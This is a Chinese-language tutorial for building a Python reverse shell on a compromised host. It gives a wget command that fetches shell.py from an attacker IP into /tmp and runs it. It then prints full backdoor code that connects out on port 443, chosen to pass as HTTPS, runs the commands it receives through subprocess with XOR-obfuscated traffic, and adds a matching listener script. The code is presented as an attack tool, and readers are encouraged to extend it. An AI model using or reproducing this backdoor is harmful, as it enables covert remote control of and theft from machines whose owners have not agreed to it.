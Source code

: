 ##反向shell

这篇教程将会教你使用Python编写一个反向shell，首先我们先演示使用Python如何利用web服务器的功能，把文件从另一台主机传送过来。我们假设你有一台傀儡主机，你现在想下载傀儡机上面的的文件。那么你就可以使用shell(或meterpreter)去访问这台傀儡机，你可以通过一行Python代码把傀儡机建立成为一个web服务器，然后下载傀儡机上面的文件.

创建一个python HTTP服务器可以直接使用python的内建函数"SimpleHTTPServer"来创建，你可以使用'-m'参数直接在命令行调用模块，创建的服务器默认是监听的8000端口，但是你可以指定端口，直接在'SimpleHTTPServer'后面跟一个端口参数:

```
python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 80 ...
```

我们假设你没有防火墙去阻止你的连接，那么你是可以请求到这服务器的数据。你可以在任何目录里面去启动Python HTTP服务器，这样你就能够通过浏览器或者是远程客户端来访问这个目录。这里有一个简单的例子告诉你使用wget工具去获取文件,但是有些时候就会经常发现你根本没有权限在当前目录写入文件并且初始化这个脚本，但是你可以改变脚本执行的目录，下面这个例子就演示了把脚本在/tmp目录下面执行：

```
#使用-O参数，把文件保存在其他目录- /tmp/ 一般可写
wget -O /tmp/shell.py http://<attacker_ip>/shell.py
 
#修改权限
chmod a+x /tmp/shell.py
 
# 使用file命令检查文件是否正确
file /tmp/shell.py
 
#执行脚本
/usr/bin/python /tmp/shell.py
```

阅读下面的后门代码。编码时会使用到socket，subprocess和sys模块，选择subprocess模块原因，是因为它允许使用一个变量储存STDOUT输出的结果，之后可以在代码中的其他部分通过调用此变量访问保存的STDOUT数据。下面的代码中：所建立的连接会监听443端口。443端口经常用在https上，这里使用443端口可以起到混淆视听的作用:

```
#!/usr/bin/python
 
import socket,subprocess,sys
 
RHOST = sys.argv[1]
RPORT = 443
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))
 
while True:
     # 从socket中接收XOR编码的数据
     data = s.recv(1024)
 
     # XOR the data again with a '\x41' to get back to normal data
     en_data = bytearray(data)
     for i in range(len(en_data)):
       en_data[i] ^=0x41
 
     # 执行解码命令，subprocess模块能够通过PIPE STDOUT/STDERR/STDIN把值赋值给一个变量
     comm = subprocess.Popen(str(en_data), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
     comm.wait()
     STDOUT, STDERR = comm.communicate()
 
     # 输出编码后的数据并且发送给指定的主机RHOST
     en_STDOUT = bytearray(STDOUT)
     for i in range(len(en_STDOUT)):
       en_STDOUT[i] ^=0x41
     s.send(en_STDOUT)
s.close()
```

上面的代码中有些概念已经在0x1中介绍过了，但是除了之前的使用socket创建一个连接之外，我们通过subprocess模块执行了一个命令，subprocess模块非常的方便，它允许你通过STDOUT/STDERR命令直接把值赋值给一个变量，然后我们可以通过命令把输出的进行编码然后通过socket网络发送出去。使用OXR的好处就是你能够很容易编码你要发送过去的数据，然后通过相同的密钥来解码返回的数据，最后解码后的数据可以以明文的形式去执行命令。

现在为了利用好这个后门，我们需要一个监听脚本并且解码后端传输过来的数据，让我们通过明文很清晰的看清楚返回的数据。下面我们将要设计一个监听器。来获取反向shell的数据，并且能够对于输入／输出的进行解码/编码，为了能够在终端上面能够很清晰的看出来，所以需要使用XOR编码:

```
import socket 
 
s= socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(("0.0.0.0", 443))
s.listen(2)
print "Listening on port 443... "
(client, (ip, port)) = s.accept()
print " Received connection from : ", ip
 
while True:
 command = raw_input('~$ ')
 encode = bytearray(command)
 for i in range(len(encode)):
   encode[i] ^=0x41
 client.send(encode)
 en_data=client.recv(2048)
 decode = bytearray(en_data)
 for i in range(len(decode)):
   decode[i] ^=0x41
 print decode
 
client.close()
s.close()
```

这章的例子非常有趣，对于学习信息安全的朋友都喜欢shell，大家可以对代码做点修改让这个脚本也能够在window上面也能够正常运行，最后大家可以使用base64来代替XOR进行编码与解码，这些练习让你你更加熟练的使用python.

